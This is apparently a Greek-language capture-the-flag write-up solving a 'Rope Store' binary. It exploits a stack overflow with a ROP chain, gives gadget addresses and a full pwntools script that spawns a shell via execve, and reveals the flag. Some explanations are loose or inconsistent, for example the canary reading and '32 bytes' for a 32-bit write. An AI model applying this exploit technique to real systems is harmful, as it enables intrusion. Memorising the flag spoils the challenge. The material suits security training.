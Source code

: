 # Rope Store Write-Up

| Δοκιμασία | Rope Chain |
| :-------- | :----------------- |
| Δυσκολία  | Δύσκολη             |
| Κατηγορία | Εκμετάλευση Δυαδικών αρχείων (Binary Exploitation)  		 |
| Λύσεις    | 3                  |
| Πόντοι    | 595                  |

## Περιγραφή Δοκιμασίας

Ropes in low prices for everyone!


## Ανάλυση Δοκιμασίας

Στη δοκιμασία αυτή μας δίνεται ένα εκτελέσιμο αρχείο rope-store, το οποίο διαβάζει μια είσοδο 256 bytes σε ένα buffer μεγέθους 32 bytes. Επειδή η εισαγωγή γίνεται μέσω fgets() χωρίς όριο, προκύπτει ένα trivial buffer overflow, επιτρέποντάς μας να ελέγξουμε τον δείκτη επιστροφής (RIP) και να εκτελέσουμε έναν ROP (Return-Oriented Programming) chain.


## Επίλυση

Πριν ξεκινήσουμε την εκμετάλλευση, ελέγχουμε τις προστασίες του δυαδικού με checksec:

```bash
$ checksec --file=./rope-store
[*] './rope-store'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       Enabled
    PIE:      No PIE (0x400000)
```

Ανάλυση προστασιών: 
- ✅ NX (Non-Executable Stack): Ενεργοποιημένο → Δεν μπορούμε να εκτελέσουμε shellcode στην stack
- ✅ Full RELRO: Οι δυναμικές εγγραφές της GOT είναι προστατευμένες
- ❌ No Canary: Μπορούμε να κάνουμε buffer overflow χωρίς ανίχνευση
- ❌ No PIE: Οι διευθύνσεις του αρχείου είναι σταθερές → διευκολύνει τον ROP exploit

Επειδή είναι static complied το αρχείο μας μπερδεύει το checksec και βγάζει ότι υπάρχει canary αλλά δεν υπάρχει :).

Επιπλέον λόγω το ότι δεν είναι συνδεδεμένο με τη βιβλιοθήκη libc και φορτώνει τον κώδικα όλον των συναρτήσεων που χρησιμοποιεί, έχουμε μεγάλη ποικιλία από gadgets (assembly code που μπορούμε να χρησιμοποιήσουμε για να φτιάξουμε το rop chain μας).

![alt text](image.png)

Διαβάζει μια είσοδο 256 bytes σε ένα buffer μεγέθους 32 bytes. Επειδή η εισαγωγή γίνεται μέσω fgets() χωρίς όριο, προκύπτει ένα stack buffer overflow

### Εκμετάλλευση της Ευπάθειας

Το overflow μας επιτρέπει να ελέγξουμε το RIP, οπότε πρέπει να φτιάξουμε ένα ROP chain που θα εκτελέσει execve("/bin/sh", NULL, NULL)

Αντί να γράψουμε shellcode, εκμεταλλευόμαστε υπάρχοντες ROP gadgets στο δυαδικό για να καλέσουμε execve("/bin/sh", NULL, NULL).

## ROP Gadgets

Χρησιμοποιούμε ROPgadget για να εντοπίσουμε χρήσιμα gadgets:

```bash
$ ROPgadget --binary rope-store <our gadgets>"
0x000000000040204f : pop rdi ; ret
0x000000000040a0be : pop rsi ; ret
0x000000000048600b : pop rdx ; pop rbx ; ret
0x0000000000401e04 : syscall
0x00000000004515b7 : pop rax ; ret
0x0000000000434444 : mov qword ptr [rdi], edx ; ret
0x000000000040101a : ret
```

Αυτά τα gadgets μας επιτρέπουν να ελέγξουμε τα registers και να πραγματοποιήσουμε την κλήση συστήματος execve("/bin/sh", NULL, NULL).

## ROP Chain

### Γράφουμε /bin/sh στη μνήμη

Δεν υπάρχει κάποια συμβολοσειρά /bin/sh στο δυαδικό, οπότε θα τη γράψουμε χειροκίνητα στη μνήμη.

- Τοποθεσία στη μνήμη: 0x4c5010 (μία κενή περιοχή που μπορούμε να χρησιμοποιήσουμε)
- Gadget mov qword ptr [ρdi], edx ; ret → Χρησιμοποιείται για να γράψουμε δεδομένα στη μνήμη, επειδή έχουμε τον edx (32 bit register) πρέπει να βάλουμε 32 bytes σε κάθε γράψιμο οπότε

Χωρίζουμε το /bin/sh σε δύο μέρη:

- bsh1 = b"/bin" + p32(0)
- bsh2 = b"/sh\0" + p32(0)

### ROP chain για εγγραφή στη μνήμη

- Βάζουμε location στο rdi (διεύθυνση όπου θα γράψουμε /bin)
- Βάζουμε /bin στο rdx και γράφουμε στη μνήμη
- Βάζουμε location+4 στο rdi (διεύθυνση όπου θα γράψουμε /sh)
- Βάζουμε /sh\0 στο rdx και γράφουμε στη μνήμη

## Εκτέλεση execve("/bin/sh", NULL, NULL)

Για να καλέσουμε execve("/bin/sh", NULL, NULL), χρειαζόμαστε:

- rax = 0x3b (κωδικός execve)
- rdi = location (/bin/sh που αποθηκεύσαμε)
- rsi = 0 (NULL argument)
- rdx = 0 (NULL environment)
- syscall για να καλέσουμε το system call

Αυτό γίνεται με:

- Φέρνουμε 0x3b στο rax (syscall execve)
- Βάζουμε location στο rdi (τοποθεσία /bin/sh)
- Βάζουμε 0 στο rsi
- Βάζουμε 0 στο rdx
- Εκτελούμε syscall

### Αυτοματοποίηση της διαδικασίας με Exploit

Αντί να εισάγουμε τους αριθμούς χειροκίνητα, δημιουργούμε ένα script με το pwntools, το οποίο αυτοματοποιεί την επίλυση της πρόκλησης.

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("./rope-store")
context.arch = 'amd64'

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    if args.REMOTE:
        return remote("localhost", 4242)
    else:
        return process(elf.path)

p = start()

# Padding μέχρι τον δείκτη επιστροφής
padding = 40 * b"A"

# ROP gadgets
pop_rdi_ret = p64(0x000000000040204f)
pop_rsi_ret = p64(0x000000000040a0be)
pop_rdx_pop_rbx_ret = p64(0x000000000048600b)
syscall = p64(0x0000000000401e04)
mov_ptr_rdi_edx = p64(0x0000000000434444)  
pop_rax = p64(0x00000000004515b7)
ret = p64(0x000000000040101a)

# Διεύθυνση στη μνήμη όπου θα γράψουμε "/bin/sh"
location = 0x4c5010
bsh1 = b"/bin" + p32(0)
bsh2 = b"/sh\0" + p32(0)

# ROP Chain
payload = padding

# Γράφουμε "/bin" στη μνήμη
payload += pop_rdi_ret + p64(location) 
payload += pop_rdx_pop_rbx_ret + bsh1 + p64(0xdeadbeef) 
payload += mov_ptr_rdi_edx 

# Γράφουμε "/sh" στη μνήμη
payload += pop_rdi_ret + p64(location+4)
payload += pop_rdx_pop_rbx_ret + bsh2 + p64(0xdeadbeef)
payload += mov_ptr_rdi_edx

# execve("/bin/sh", NULL, NULL)
payload += pop_rax + p64(0x3b) 
payload += pop_rdi_ret + p64(location) 
payload += pop_rsi_ret + p64(0) 
payload += pop_rdx_pop_rbx_ret + p64(0) + p64(0) 
payload += syscall 

p.sendline(payload)
p.interactive()

```

## Ανάκτηση σημαίας

Αφού τρέξουμε το exploit στον σερβερ, αποκτούμε shell access και μπορούμε να ανακτήσουμε τη σημαία:

## Σημαία

```
FLAG{rop3-ch41n-g03s-brrrr}
```
